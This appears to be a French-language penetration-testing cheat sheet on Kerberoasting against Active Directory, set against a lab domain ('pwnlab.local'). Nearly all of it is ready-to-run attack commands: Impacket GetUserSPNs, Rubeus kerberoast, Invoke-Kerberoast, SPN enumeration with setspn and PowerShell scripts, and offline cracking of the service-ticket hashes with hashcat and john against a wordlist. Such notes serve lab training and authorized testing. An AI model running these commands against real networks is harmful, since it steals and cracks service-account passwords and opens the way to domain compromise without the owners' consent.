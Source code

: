 # Kerberoasting

Permet à un utilisateur de demander un ticket de service pour n'importe quel service avec un SPN enregistré, puis d'utiliser ce ticket pour déchiffrer le mot de passe du service. **Si le service a un SPN enregistré, il peut être Kerberoastable**

**Impacket**

```sh
impacket-GetUserSPNs.py pwnlab.local/user:password -dc-ip 192.168.x.x -request
```

**Rubeus**

```sh
C:\Users\Administrator> Rubeus.exe kerberoast /outfile:hash.txt
```

```
hashcat -m 13100 -a 0 hash.txt /opt/rockyou.txt
```

**Invoke-Kerberoast**

```sh
C:\Users\Administrator> Invoke-Kerberoast -domain pwnlab.local | Export-CSV -NoTypeInformation output.csv
john --session=Kerberoasting output.csv
```

---

Acceder au system compromis et chercher les SPN vulnerables

```c
. .\Find-PotentiallyCrackableAccounts.ps1

Find-PotentiallyCrackableAccounts
```

```c
setspn.exe -Q */*
```

Demander un ticket pour le TGS

```c
. .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "SPN" -Format john
```
